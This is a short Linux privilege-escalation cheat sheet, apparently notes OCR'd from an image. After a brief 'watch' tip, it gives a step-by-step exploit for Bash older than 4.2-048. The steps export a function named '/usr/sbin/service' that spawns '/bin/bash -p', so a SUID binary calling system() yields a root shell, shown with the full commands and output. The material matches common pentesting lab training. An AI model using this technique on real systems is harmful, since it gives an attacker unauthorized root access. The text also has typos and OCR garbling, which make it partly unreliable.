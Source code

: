 ### WATCH

***
***
Monitor the content of a directory.

watch -n 1 ls -l /tmp
***
***
***
***
***
***

### SHELL VERSION

***
***

If /bin/sh is under 4.2-048, it is possible to defiune user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

/bin/sh --version
bash --version
***
***

Then we need to find a program that execute the shell with root privilege and try to exploit.

***
***
***Example of exploit (suid have to be set on the bin)***
***
***
$ ltrace /usr/local/bin/suid-env2 2>&1 | grep service
system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

Verify the version of Bash is lower than 4.2-048:

$ bash --version
GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

Create a Bash function with the name “/usr/sbin/service” and export the function:

$ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service

Execute the SUID file for a root shell:

$ /usr/local/bin/suid-env2
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root) ...
***
***
***
***
